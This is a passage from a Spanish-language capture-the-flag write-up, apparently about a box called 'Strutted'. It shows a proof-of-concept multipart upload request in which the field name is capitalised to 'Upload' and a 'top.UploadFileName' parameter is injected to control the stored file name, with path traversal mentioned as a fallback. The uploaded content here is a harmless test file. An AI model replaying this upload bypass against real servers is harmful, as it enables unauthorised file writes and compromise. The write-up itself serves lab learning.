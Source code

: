 ~~~ bash

ÿØÿà
...
...
...
-----------------------------304365947826637974553275897232--
~~~

### Proof of Concept 

En la solicitud que interceptamos podemos ver que el parámetro `name` tiene como valor `upload`, que en teoría debe ser el nombre de la acción a ejecutar. Los interceptores necesitan que el valor esté con la primera letra en mayúsculas, es por eso que el exploit manipula este campo y lo envía con un valor en mayúsculas.

~~~ bash
-----------------------------371893311142375625202151022458
Content-Disposition: form-data; name="Upload"; filename="cat.jpeg"
Content-Type: image/jpeg

ÿØÿà






test
-----------------------------371893311142375625202151022458
Content-Disposition: form-data; name="top.UploadFileName"

test.txt
-----------------------------371893311142375625202151022458--
~~~

Al enviar la solicitud manipulada, intentaremos ver el archivo, si no, retrocederemos una ruta atrás hasta ver el archivo, en cada caso, se subirá el archivo correctamente

![image-center](/assets/images/posts/strutted-request-2.png)
{: .align-center}
